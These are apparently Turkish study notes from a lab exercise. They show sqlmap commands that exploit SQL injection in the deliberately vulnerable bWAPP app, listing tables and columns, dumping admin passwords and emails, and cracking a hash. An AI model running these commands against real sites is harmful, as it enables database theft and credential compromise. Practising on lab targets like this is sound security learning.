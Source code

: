
### SQLMAP ile TABLES
### #sqlmap-tables
##### sqlmap -u "http://10.0.2.6/bWAPP/sqli_1.php?title=JOE&action=search" --cookie "PHPSESSID=cb1324974388c7f7b9d023c4ae37694b;security_level=0" -p title <span style="background:#d4b106">-D bWAPP --tables</span>
![[Pasted image 20240505000027.png]]

### DATABASE -> TABLES -> COLUMNS -> ROWS
![[Pasted image 20240505000300.png]]
##### sql sırası

---
## SQLMAP COLUMNS
##### sqlmap -u "http://10.0.2.6/bWAPP/sqli_1.php?title=JOE&action=search" --cookie "PHPSESSID=cb1324974388c7f7b9d023c4ae37694b;security_level=0" -p title <span style="background:#d4b106">-T users --columns</span>

![[Pasted image 20240505000539.png]]

---
## SQLMAP-COLUMNS-ROWS-DUMP
##### sqlmap -u "http://10.0.2.6/bWAPP/sqli_1.php?title=JOE&action=search" --cookie "PHPSESSID=cb1324974388c7f7b9d023c4ae37694b;security_level=0" -p title <span style="background:#d4b106">-C admin,password,email --dump</span>

### 2 defa yes yapmamız gerekti dictionary attack yapması için.
![[Pasted image 20240505001107.png]]
### bug şifresinin hash'ini buldu ve kırdı.

![[Pasted image 20240505001222.png]]
![[Pasted image 20240505001317.png]]


---

### SQL INJECTION POST
![[Pasted image 20240505001428.png]]

![[Pasted image 20240505001657.png]]
